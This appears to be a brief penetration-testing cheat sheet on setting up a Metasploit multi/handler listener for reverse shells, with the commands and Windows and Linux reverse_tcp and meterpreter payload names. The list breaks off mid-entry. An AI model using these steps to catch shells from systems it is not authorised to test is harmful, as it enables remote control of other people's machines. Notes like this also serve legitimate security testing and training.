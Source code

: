 # Reverse Shell

## Multi Handler

* Start the PostgreSQL service `service postgresql start`.
* Start the metasploit console `msfconsole`.
* `use exploit/multi/handler`.

## Setting Up a listener in multi handler

* `set lhost 192.168.1.10`.
* `set lport 4444`.
* Then we need to specify the payload,
  * netcat shell \([https://netsec.ws/?p=292](https://netsec.ws/?p=292)\)
    * windows listener payload windows/shell/reverse\_tcp
    * linux listener payload payload linux/x86/shell/reverse\_tcp
  * meterpreter shell
    * windows listener payload windows/meterpreter/reverse\_tcp
    * linux listener payload linux

